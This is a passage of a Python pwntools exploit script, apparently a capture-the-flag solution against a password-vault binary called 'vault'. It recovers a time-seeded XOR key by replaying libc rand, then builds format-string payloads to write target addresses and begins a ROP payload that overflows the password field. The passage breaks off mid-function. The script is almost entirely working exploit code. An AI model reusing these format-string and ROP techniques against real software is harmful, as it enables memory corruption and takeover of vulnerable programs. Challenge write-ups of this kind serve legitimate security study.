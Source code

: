 ```py
    global r
    r.sendlineafter(b'3. Exit\n',b'2')
    r.sendlineafter(b'Index: ',str(i).encode())

def xor(data:bytes, key:bytes):
    return bytes([data[i]^key[i%len(key)] for i in range(len(data))])

def conn():
    global r
    if args.GDB:
        r = gdb.debug(
            ['./vault'],
            gdbscript='''
                b *view_entries+387
                c
                c
                set $r12=&entries
                b printf
                c
                c
            '''
        )
    elif args.REMOTE:
        r = remote('localhost',1234)
    else:
        r = process([e.path])

def init_key():
    global global_key
    global_key = b''
    now = int(floor(time.time()))
    libc_cdll.srand(now)
    for _ in range(64):
        global_key += p8(libc_cdll.rand() &0xff)


def exploit(url:bytes,password:bytes):
    global r,idx
    check_badbytes(password)
    add(url, password,False)
    view(idx)
    view(idx)
    idx += 1

def fmt_payload(fmt:bytes):
    global idx,global_key,e
    url = b''
    url+= fmt
    url = url.ljust(0x80,b'A')+b':80'

    password  = b''
    password += xor(p16((e.sym.entries+ENTRY_SIZE*idx)&0xffff),global_key[:2])
    password += p8(global_key[2])               # null
    password  = password.ljust(0xff,b'C')

    exploit(url,password)

def rop_payload(addr:int):
    url      = b'A'*0x80 +b':80'
    password = b'A'*0x20
    password+= xor(p64(addr),global_key[0x20:0x28])
    password = password.ljust(0xff,b'C')

```